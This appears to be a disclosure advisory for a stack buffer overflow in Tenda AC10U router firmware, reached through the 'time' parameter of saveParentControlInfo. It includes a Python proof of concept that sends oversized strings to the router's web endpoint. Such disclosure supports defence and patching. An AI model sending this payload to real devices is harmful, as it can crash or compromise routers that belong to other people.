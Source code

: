 # Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the time parameter in the saveParentControlInfo function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "saveParentControlInfo" retrieves the parameter "time" using "websGetVar",  the value of "time"  is formatted using the sscanf function with the format "%[^-]-%s". This greedy matching mechanism is insecure, as it can cause a stack overflow if the size of the data we enter exceeds the size of "starttime", "endtime".

![1705412315727](image/saveParentControlInfo_2/1705412315727.png)

## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/saveParentControlInfo'
payload = {
    'deviceId': '10:11:11:11:11:16',
    'deviceName': 'deviceNAME666',
    'enable': '1',
    'time': "1"*0x800 + "-" + "2"*0x800,
    'url_enable': '1',
    'urls': "www.google.com",
    'day': '1,1,1,1,1,1,1',
    'limit_type': '0',
}

res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
